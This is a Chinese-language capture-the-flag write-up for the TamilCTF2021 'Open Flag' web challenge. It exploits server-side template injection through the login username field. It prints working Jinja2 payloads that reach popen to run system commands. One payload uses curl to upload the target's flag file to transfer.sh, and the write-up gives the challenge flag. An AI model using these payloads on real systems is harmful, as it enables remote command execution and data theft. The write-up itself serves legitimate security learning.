 # Open Flag

---

访问题目中给出的链接,发现是一个登录页面
<img src="../../CTF/TamilCTF2021/Web/images/login.png" alt="Open Flag" style="zoom:80%;" />
随便输入一个用户名和密码直接可以登录,提示我们flag文件的路径是`./flag.jpg`.
F12看源码发现注释中会显示刚才登录所用的用户名,猜测存在SSTI漏洞,直接用注入代码作为用户名登录即可
<img src="../../CTF/TamilCTF2021/Web/images/image-20211119203608270.jpg" alt="image-20211119203608270" style="zoom:70%;" />

使用下列代码作为用户名登录,查看当前已加载的模块;删掉HTML的注释标记`<!--`,找到`os._wrap_close`模块所在的索引为132,借助于`popen`函数可以直接执行系统命令

```python
{{"".__class__.__bases__[0].__subclasses__()}}
```

![image-20211119212248483](../../CTF/TamilCTF2021/Web/images/image-20211119212248483.png)

使用`curl`命令将`flag.jpg`文件上传至[transfer.sh](http://transfer.sh/)

```python
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('curl --upload-file ./flag.jpg http://transfer.sh/flag.jpg').read()}}
```
在HTML注释中找到文件上传后的URL`http://transfer.sh/bDGBlw/flag.jpg`
![image-20211119204635015](../../CTF/TamilCTF2021/Web/images/image-20211119204635015.png)

<img src="../../CTF/TamilCTF2021/Web/images/flag.jpg" alt="Open Flag" style="zoom:80%;" />

**flag:**`TamilCTF{SsTi_Is_VeRy_DaNgErOuS}`